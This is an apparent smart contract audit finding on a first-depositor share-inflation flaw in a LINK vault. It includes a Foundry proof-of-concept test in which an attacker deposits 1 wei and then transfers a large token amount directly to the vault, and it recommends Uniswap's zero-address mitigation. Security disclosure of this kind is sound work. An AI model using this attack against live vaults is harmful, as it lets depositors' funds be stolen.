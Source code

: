 Ruhum

high

# First depositor to Vault can break minting of shares

## Summary
The first depositor can manipulate the share price for subsequent depositors' funds. This is a pretty well-known issue. It was also reported in the Sentiment contest a couple of weeks ago: https://github.com/sherlock-audit/2022-08-sentiment-judging#issue-h-1-a-malicious-early-userattacker-can-manipulate-the-ltokens-pricepershare-to-take-an-unfair-share-of-future-users-deposits

## Vulnerability Detail
The share price is based on the total number of LINK tokens inside the vault. By first depositing 1 wei and then transferring a large number of tokens, e.g. `10000e18`, the attacker can manipulate the price.

The next user that deposits tokens won't receive any shares unless they deposit more than `10000e18` tokens. Their deposit will go through but they won't receive any shares. The attacker waits for users to deposit their funds. After that, as the sole owner of the vault's shares, they can withdraw all the funds.

## Impact
Funds of depositors can be stolen by a malicious first depositor.

## Code Snippet

Here's a PoC showing the issue:
```sol
// deposit.t.sol
contract Vault_depositTest is VaultTest {
// ....
    function testAttack() public {
        address attacker = vm.addr(1);
        // will be deposited
        link.mint(attacker, 1);
        // will be sent directly
        link.mint(attacker, 10000e18);
        vm.startPrank(attacker);

        link.approve(address(vault), 1);

        vault.deposit(1);

        assertEq(vault.totalSupply(), 1);
        assertEq(vault.balanceOf(attacker), 1);
        assertEq(vault.shares(attacker), 1 * vault.STARTING_SHARES_PER_LINK());

        link.transfer(address(vault), 10000e18);

        vm.stopPrank();

        address user = vm.addr(2);
        link.mint(user, 1e18);
        vm.startPrank(user);
        link.approve(address(vault), 1e18);

        vault.deposit(1e18);
        assertEq(vault.totalSupply(), 10001e18 + 1);
        assertEq(vault.balanceOf(user), 1e18);
        assertEq(vault.shares(user), 1e18 * vault.STARTING_SHARES_PER_LINK());
    }
}
```

## Tool used

Manual Review

## Recommendation
Uniswap solved this by sending the first shares to the 0 address: https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124
